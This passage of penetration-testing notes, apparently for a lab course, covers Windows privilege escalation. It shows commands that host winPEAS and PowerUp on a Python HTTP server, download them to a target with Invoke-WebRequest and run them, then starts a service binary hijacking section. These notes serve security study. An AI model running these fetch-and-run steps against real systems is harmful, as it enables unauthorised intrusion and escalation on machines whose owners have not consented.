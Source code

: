 Use Invoke-WebRequest to download files from Python server:

```
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
```

Run WinPEAS:

```
.\winPEAS.exe
```

Comb through output looking for:

```
- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes
```

#### PowerUp

Use PowerUp:

```
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
```

Start Python server:

```
python -m http.server 80
```

Download PowerUp:

```
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```

Run PowerUp:

```
.\PowerUp.ps1
```

## Windows Services Escalation

### Service Binary Hijacking (Manual)

List all installed Windows services:

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
